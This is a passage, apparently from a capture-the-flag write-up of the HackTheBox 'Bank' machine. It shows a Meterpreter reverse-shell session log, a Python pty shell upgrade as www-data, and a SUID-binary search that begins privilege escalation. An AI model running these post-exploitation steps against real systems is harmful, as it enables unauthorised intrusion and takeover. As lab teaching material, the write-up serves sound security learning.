 ```
[-]   /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:213:in `send_packet_wait_response'
[-]   /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:176:in `send_request'
[-]   /usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/sys/process.rb:97:in `_open'
[-]   /usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/sys/process.rb:78:in `open'
[-]   /usr/share/metasploit-framework/modules/post/windows/manage/migrate.rb:40:in `run'
[*] Meterpreter session 1 opened (10.10.14.2:1234 -> 10.10.10.29:35630) at 2021-05-29 14:54:01 +0800

meterpreter > shell
Process 1512 created.
Channel 0 created.
which python
/usr/bin/python
python -c 'import pty;pty.spawn("/bin/bash")' # https://netsec.ws/?p=337
www-data@bank:/var/www/bank/uploads$
```

# Privilege Escalation

Lets search for all SUID binaries owned by root.

-   search all subdirectories of `/` (the entire file system)
-   `type f` - only return files
-   `user root` - only return files owned by root
-   `perm -4000` - files with SUID bit set
-   `2>/dev/null` - don't show errors

```
www-data@bank:/var/www/bank/uploads$ find / -type f -user root -perm -4000 2>/dev/null
</uploads$ find / -type f -user root -perm -4000 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
```
